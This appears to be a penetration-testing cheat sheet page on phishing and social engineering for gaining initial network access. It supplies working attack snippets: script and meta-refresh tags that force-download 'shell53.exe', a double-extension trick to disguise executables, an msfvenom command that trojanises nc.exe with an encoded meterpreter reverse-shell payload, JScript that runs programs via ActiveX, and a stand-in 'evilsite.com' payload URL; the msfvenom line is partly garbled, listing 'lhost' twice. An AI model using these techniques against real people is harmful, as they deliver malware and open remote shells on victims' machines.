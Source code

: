 # Social Engineering - Phishing

Gaining initial access to a network is often done using different kinds of social engineering attacks.

### Auto-download a malicious file <a id="auto-download-a-malicious-file"></a>

The techical part is not really that difficult here. In order to auto-download a file you just add this script to the malicious webpage

```text
<script> document.location.href = 'shell53.exe'; </script>
```

Another way to do it is like this

```text
<html>
<head>
<meta http-equiv="refresh" content="0; url=shell53.exe">
</head>
</html>
```

Of course the user will have to accept to download the file, unless the user has previously checked in the box automatically download. The user must then click the file for it to execute. This is where the social engineering part comes in, you really must trick the user into executing the file.

#### Change the filename <a id="change-the-filename"></a>

Since windows by default remove the filename you can call your file shell.jpg.exe, and once downloaded onto the machine windows will display it as "shell.jpg".

#### Embed malicious code in legitimate file <a id="embed-malicious-code-in-legitimate-file"></a>

It is however very likely that this will be picked up by a antivirus.

```text
msfvenom -a x86 --platform windows -x nc.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.101 lhost=53 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o ncMalicious.exe
```

### Autodownload a malicious javascript-file <a id="autodownload-a-malicious-javascript-file"></a>

Just like we can download an exe for a user to can also make that user download a javascript file. Since javascript files can execute commands on windows.

```text
var oShell = new ActiveXObject("Shell.Application");
var commandtoRun = "C:\\Windows\\system32\\calc.exe";
oShell.ShellExecute(commandtoRun,"","","open","1");
```

```text
http://evilsite.com/file.js
```

This code can be modified to greate a wget-script and then download and execute a script.

### Phishing <a id="phishing"></a>

The most common tool for social engineering is to use Social Engineering Toolkit. SET. It comes as default in Kali. Run it like this:

```text
setoolkit
```

### Spear phishing <a id="spear-phishing"></a>

### Word/excel makros <a id="wordexcel-makros"></a>

An explanation of how to createa malicious makro-wordfile.

[https://www.offensive-security.com/metasploit-unleashed/vbscript-infection-methods/](https://www.offensive-security.com/metasploit-unleashed/vbscript-infection-methods/)

### Embed a executable inside a PowerPoint <a id="embed-a-executable-inside-a-powerpoint"></a>

You can embed executables inside PowerPoint presentations and then have them execute about animations.

